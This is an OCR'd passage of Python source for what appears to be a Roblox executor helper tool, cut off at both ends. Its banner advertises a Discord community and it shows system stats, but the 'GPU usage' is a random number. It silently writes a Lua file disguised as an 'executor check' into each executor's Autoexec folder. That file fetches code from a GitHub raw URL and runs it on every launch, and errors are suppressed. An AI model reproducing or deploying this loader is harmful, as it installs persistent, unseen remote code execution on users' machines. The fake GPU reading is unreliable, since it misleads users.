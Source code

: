 workspace_paths = []

for executor, base_path in executors.items():
    workspace_paths.append(f"{base_path}Workspace")  
    workspace_paths.append(f"{base_path}workspace")   

lua_script_template = '''loadstring(game:HttpGet("https://raw.githubusercontent.com/RISER93-ROBLOX/AfxcaxiRT1/refs/heads/main/Check%20Executor"))()'''

def print_header(cpu, ram, gpu):
    os.system('cls' if os.name == 'nt' else 'clear')
    header = r"""
████████╗██╗  ██╗███████╗██╗ █████╗ ███████╗ █████╗  █████╗    ██████╗ ███████╗     ██╗ █████╗ ██╗███╗  ██╗
╚══██╔══╝╚██╗██╔╝╚════██║██║██╔══██╗╚════██║██╔══██╗██╔══██╗   ██╔══██╗██╔════╝     ██║██╔══██╗██║████╗ ██║
   ██║    ╚███╔╝   ███╔═╝██║██║  ╚═╝  ███╔═╝███████║██║  ╚═╝   ██████╔╝█████╗       ██║██║  ██║██║██╔██╗██║
   ██║    ██╔██╗ ██╔══╝  ██║██║  ██╗██╔══╝  ██╔══██║██║  ██╗   ██╔══██╗██╔══╝  ██╗  ██║██║  ██║██║██║╚████║
   ██║   ██╔╝╚██╗███████╗██║╚█████╔╝███████╗██║  ██║╚█████╔╝   ██║  ██║███████╗╚█████╔╝╚█████╔╝██║██║ ╚███║
   ╚═╝   ╚═╝  ╚═╝╚══════╝╚═╝ ╚════╝ ╚══════╝╚═╝  ╚═╝ ╚════╝    ╚═╝  ╚═╝╚══════╝ ╚════╝  ╚════╝ ╚═╝╚═╝  ╚══╝            
"""
    print(Fore.LIGHTCYAN_EX + header + Style.RESET_ALL)
    print(Fore.LIGHTMAGENTA_EX + "TxZicZac Community's Discord Is: https://discord.gg/fqNxktESCH" + Style.RESET_ALL)
    print(Fore.LIGHTYELLOW_EX + f"CPU Usage: {cpu}%  RAM Usage: {ram}%  GPU Usage: {gpu}%" + Style.RESET_ALL)

def check_system_cpu_ram_gpu():
    cpu = psutil.cpu_percent(interval=1)  # CPU usage in percentage
    ram = psutil.virtual_memory().percent  # RAM usage in percentage
    gpu = random.randint(0, 100)  # Random GPU usage value (simulated, since psutil doesn't support GPU)
    return cpu, ram, gpu

def detect_and_write_lua_script():
    detected_executors = []

    for executor_name, base_path in executors.items():
        possible_autoexec_paths = [
            os.path.join(base_path, "Autoexec"),
            os.path.join(base_path, "Autoexecute")
        ]

        for path in possible_autoexec_paths:
            lua_script_path = os.path.join(path, "Xero_Executor_Check.lua")  # Lua script path

            if os.path.exists(path): 
                try:
                    with open(lua_script_path, 'w') as file:
                        file.write(lua_script_template)  
                    detected_executors.append(executor_name)
                    break 
                except Exception:
                    pass  
